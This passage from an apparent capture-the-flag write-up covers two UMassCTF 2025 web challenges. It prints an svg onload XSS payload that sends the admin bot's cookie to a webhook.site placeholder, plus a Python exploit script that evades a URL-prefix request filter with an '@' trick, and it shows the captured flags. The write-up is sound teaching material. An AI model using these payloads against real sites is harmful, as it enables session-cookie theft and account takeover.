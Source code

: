 My final payload looks like this:

```html
<svg onload="window.open('/');setTimeout(() => location.href='http://webhook.site/your-web-hook?cookie='+document.cookie, 2000)">
```

I use `window.open` to make the admin bot to get to `/` (which will then redirect the bot to its page and get the flag cookie), use `setTimeout` to wait for the page to load, then just redirect to my webhook.

**Flag:**
`UMASS{tH3_cl053Rz_@re_n0_m@tcH}`


## Rush Hour v2

| Solves | Points | Tags          |
|--------|--------|---------------|
| 40     | 426    | `web`, `hard(?)` |

**Description:**  
The closers are upon us! Do you have what it takes to meet their demands?

**Source Code:** [Rush_Hour_V2.zip](/assets/source/umassctf-2025/Rush_Hour_V2.zip)

This challenge is almost similar to the previous one, except from `admin.js`. This time, we have an additional check 

```javascript
page.on('request', (request) => {
  if (!request.url().startsWith("http://127.0.0.1:3000")) {
    request.abort();
  } else {
    request.continue();
  }
});
```

With those who are familiar with WAF bypass, this is a piece of cake. We can just use `@` to bypass the check. The payload is similar to the previous challenge, here's the exploit script:

```python
import requests

host = 'localhost'
port = 80
url = f'http://{host}:{port}/'

webhook = 'webhook.site/your-web-hook'
session = requests.session()

def login():
    res = session.get(url)

def create_note():
    data = {
        'note[0]': f"""<svg onload="window.open('/');setTimeout(() => location.href='http://127.0.0.1:3000@{webhook}?cookie='+document.cookie, 2000)">""",
        'note[1]': 'sliderboo'
    }
    print(data)
    res = session.post(url + 'create', data=data)

def report():
    res = session.get(url + 'report/' + session.cookies['user'])
    print(res.text)

```